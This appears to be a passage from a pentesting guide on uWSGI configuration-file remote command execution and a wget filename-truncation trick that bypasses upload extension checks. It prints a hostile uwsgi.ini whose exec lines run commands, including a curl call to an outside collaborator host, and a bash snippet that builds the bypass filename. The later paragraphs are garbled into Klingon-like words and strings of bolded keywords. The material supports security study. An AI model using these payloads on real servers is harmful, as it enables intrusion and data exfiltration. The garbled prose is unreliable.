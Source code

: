 
## **uWSGI RCE**

For a detailed exploration of this vulnerability check the original research: [uWSGI RCE Exploitation](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html).


Remote Command Execution (RCE) vulnerabilities can be exploited in uWSGI servers if one has the capability to modify the `.ini` configuration file. uWSGI configuration files leverage a specific syntax to incorporate "magic" variables, placeholders, and operators. Notably, the '@' operator, utilized as `@(filename)`, is designed to include the contents of a file. Among the various supported schemes in uWSGI, the "exec" scheme is particularly potent, allowing the reading of data from a process's standard output. This feature can be manipulated for nefarious purposes such as Remote Command Execution or Arbitrary File Write/Read when a `.ini` configuration file is processed.

Consider the following example of a harmful `uwsgi.ini` file, showcasing various schemes:
```ini
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; curl to exfil via collaborator
extra = @(exec://curl http://collaborator-unique-host.oastify.com)
; call a function returning a char *
characters = @(call://uwsgi_func)
```
**Qap** vItlhutlh **payload** **execution** **parsing** **configuration** **file**. **configuration** **activated** **parsed**, **uWSGI** **process** **restarted** (potentially **crash** **Denial** **Service** **attack**) **file** **set** **auto-reload**. **auto-reload** **feature**, **enabled**, **reload** **file** **specified** **intervals** **detecting** **changes**.

**uWSGI**'s **configuration** **file** **parsing** **nature** **lax** **understand** **crucial**. **Specifically**, **discussed** **payload** **inserted** **binary** **file** (such **image** **PDF**), **further** **broadening** **scope** **potential** **exploitation**.

## **wget File Upload/SSRF Trick**

**occasions** **server** **using** **`wget`** **download files** **indicate** **URL**. **cases**, **code** **checking** **extension** **downloaded files** **whitelist** **assure** **allowed** **files** **going** **downloaded**. **However**, **check** **bypassed**.\
**maximum** **length** **filename** **linux** **255**, **however**, **wget** **truncate** **filenames** **236** **characters**. **download** **file** **called** **"A"\*232+".php"+".gif"**, **filename** **bypass** **check** (as **example** **".gif"** **valid** **extension**) **`wget`** **rename** **file** **"A"\*232+".php"**.
```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080
```
